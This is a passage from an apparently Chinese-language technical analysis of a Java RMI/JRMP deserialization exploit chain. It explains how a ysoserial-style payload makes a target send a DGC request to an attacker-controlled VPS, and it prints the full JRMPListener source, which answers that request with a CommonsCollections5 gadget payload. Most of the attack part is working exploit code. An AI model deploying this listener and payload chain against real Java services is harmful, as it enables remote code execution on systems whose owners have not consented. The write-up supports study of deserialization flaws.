1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 private void readObject (java.io.ObjectInputStream in) throws java.io.IOException, java.lang.ClassNotFoundException String refClassName = in.readUTF(); if (refClassName == null || refClassName.length() == 0 ) { ref = (RemoteRef) in.readObject(); } else { String internalRefClassName = RemoteRef.packagePrefix + "." + refClassName; Class refClass = Class.forName(internalRefClassName); try { ref = (RemoteRef) refClass.newInstance(); } catch (InstantiationException e) { } ref.readExternal(in); } }
依据payload的生成过程，可知refClassName实际上是UnicastRef.class，因此会进入else子句，并开启ref.readExternal(in)。后面的调用过程不再详述，具体见下图，最终建立一个TCPEndpoint，向我们控制的vps发送DGC请求，这个过程实际和RMIRegistry的DGC部分一致。

Exploit/JRMPListenerJRMPListener所做的工作是接受这一请求，再生成攻击payload并发送回去。代码如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 public static final void main ( final String[] args ) if ( args.length < 3 ) { System.err.println(JRMPListener.class.getName() + " <port> <payload_type> <payload_arg>" ); System.exit(-1 ); return ; } final Object payloadObject = Utils.makePayloadObject(args[ 1 ], args[ 2 ]); try { int port = Integer.parseInt(args[ 0 ]); System.err.println("* Opening JRMP listener on " + port); JRMPListener c = new JRMPListener(port, payloadObject); c.run(); } catch ( Exception e ) { System.err.println("Listener error" ); e.printStackTrace(System.err); } Utils.releasePayload(args[1 ], payloadObject); } public void run () try { Socket s = null ; try { while ( !this .exit && ( s = this .ss.accept() ) != null ) { try { s.setSoTimeout(5000 ); InetSocketAddress remote = (InetSocketAddress) s.getRemoteSocketAddress(); System.err.println("Have connection from " + remote); InputStream is = s.getInputStream(); InputStream bufIn = is.markSupported() ? is : new BufferedInputStream(is); bufIn.mark(4 ); DataInputStream in = new DataInputStream(bufIn); int magic = in.readInt(); short version = in.readShort(); if ( magic != TransportConstants.Magic || version != TransportConstants.Version ) { s.close(); continue ; } OutputStream sockOut = s.getOutputStream(); BufferedOutputStream bufOut = new BufferedOutputStream(sockOut); DataOutputStream out = new DataOutputStream(bufOut); byte protocol = in.readByte(); switch ( protocol ) { case TransportConstants.StreamProtocol: case TransportConstants.SingleOpProtocol: doMessage(s, in, out, this .payloadObject); break ; default : case TransportConstants.MultiplexProtocol: System.err.println("Unsupported protocol" ); s.close(); continue ; } bufOut.flush(); out.flush(); } private void doMessage ( Socket s, DataInputStream in, DataOutputStream out, Object payload ) throws Exception System.err.println("Reading message..." ); int op = in.read(); switch ( op ) { case TransportConstants.Call: doCall(in, out, payload); } private void doCall ( DataInputStream in, DataOutputStream out, Object payload ) throws Exception ObjectInputStream ois = new ObjectInputStream(in) { ObjID read; try { read = ObjID.read(ois); } catch ( java.io.IOException e ) { throw new MarshalException("unable to read objID" , e); } if ( read.hashCode() == 2 ) { ois.readInt(); ois.readLong(); System.err.println("Is DGC call for " + Arrays.toString((ObjID[])ois.readObject())); } System.err.println("Sending return with payload for obj " + read); out.writeByte(TransportConstants.Return); ObjectOutputStream oos = new JRMPClient.MarshalOutputStream(out, this .classpathUrl); oos.writeByte(TransportConstants.ExceptionalReturn); new UID().write(oos); BadAttributeValueExpException ex = new BadAttributeValueExpException(null ); Reflections.setFieldValue(ex, "val" , payload); oos.writeObject(ex); oos.flush(); out.flush(); this .hadConnection = true ; synchronized ( this .waitLock ) { this .waitLock.notifyAll(); } }
这里生成payload实际用的CommonsCollections5中BadAttributeValueExpException.val成员变量做的最外层包裹，实际的反序列化过程可以看做CommonsCollections5和payload调用链的组合。这里也不再赘述。下图为JRMPListener的打印信息。

References